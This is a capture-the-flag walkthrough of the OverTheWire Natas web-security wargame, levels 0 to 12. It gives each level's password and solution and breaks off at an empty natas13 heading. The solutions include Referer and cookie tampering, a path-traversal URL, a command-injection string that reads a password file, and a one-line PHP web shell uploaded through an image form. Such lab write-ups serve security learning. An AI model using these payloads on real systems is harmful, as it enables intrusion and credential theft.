

# Natas Challenges

### Natas0

Password is in the source code

```
gtVrDuiDfck831PqWsLEZy5gyDz1clto 
```
### natas1
Source Code of the screen again
```
ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi 
```

### natas2
source code has a image. Going to the images directory is has another file with the password. Users.txt
```
sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
```

### natas3
This was found in the source code. This references robots.txt
```html
<!-- No more information leaks!! Not even Google will find it this time... -->
```
There is a hidden directory found in robots.txt
```html
User-agent: *
Disallow: /s3cr3t/
```
In this directory there is a uses.txt with the next password
```
Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```
### natas4
```html
Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
```
This is referencing the referer field in the request. Refreshing the page will populate the needed field.

Changing the request to the following will get you the password.


```
Referer: http://natas5.natas.labs.overthewire.org/
```
```
iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```

### natas5 

You are greeted with the following prompt.

```
Access disallowed. You are not logged in
```

What is associated with logging in? COOKIES

Changing the loggedin cookies cookie from 0 to 1 fixes this.


Refreshing this page after this will reveal the password.

```
aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```

### natas6

A prompt for a secret appears.

We can try some stuff but nah.

Let look at the source code.

```php

<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
```

The php script calls for the file secrets.inc in includes directory.

The page appears blank but looking at the source code will reveal the password for the first screen.


```
7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```

### natas7

A page with 2 options.

Home and About

Clicking one adds `?page=home` and `?page=about` to the url. I smell Local File Inclusion.

```
http://natas7.natas.labs.overthewire.org/index.php?page=../../../../../etc/natas_webpass/natas8
```

The `../` allows us to move up a directory. Lets just do it a lot to make sure we get to the top. The natas challenge web page stats we can always find the password file under `/etc/natas_webpass/` and the next level name.


```
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe 
```

### natas8

Another Secret Page. Oh Dear. Lets take a look at the source code.

```php
<?

$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```

Alright so we have a secret and we have how it got there. Lets reverse engineer. For the sake of easiness (and the fact that I am using a windows OS), lets use cyberchef to get the secret.

The order to get is base64 > Reverse String > bin2hex so we have to do it backwards. From Hex > Reverse the order > Decode base64.


the final code is `oubWYf2kBq` which reveals the password.

```
W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```

### natas9

Another secret.

Lets take a look at the source code.

```php+HTML
Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>
```

I might be able to inject a command into `grep -i $key dictionary.txt` . With the entry `whoami; cat /etc/natas_webpass/natas10 ; ` so that it looks like `grep -i whoami; cat /etc/natas_webpass/natas10; dictionary.txt`

Boom.


```
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

### natas10

```
For security reasons, we now filter on certain characters
```

Hoa boi.... ( Had to look this one up)

You inject another file for the grep command to lookup. Lets do `/etc/natas_webpass/natas11` cause thats the goal I guess.



```
U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```

### natas11

Ight. This one was rough. I had to get my friend explain this one to me. He knows stuff.

```
EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
```

### natas12

Its an image uploader. Ight. So I could read the source code, but I am going to just try a few things.

Below is my standard PHP Cmd

```php
<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
```

Lets make a php file and try to upload.

Oh no. It gets renamed to a name with random strings.jpg.

If I look at the request, I can change it before it gets sent.


If I rename it to hello.php and go to `/upload/hello.php?e=whoami` I get back the username of the current user. With that I can read `/etc/natas_webpass/natas13`

```
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```

### natas13

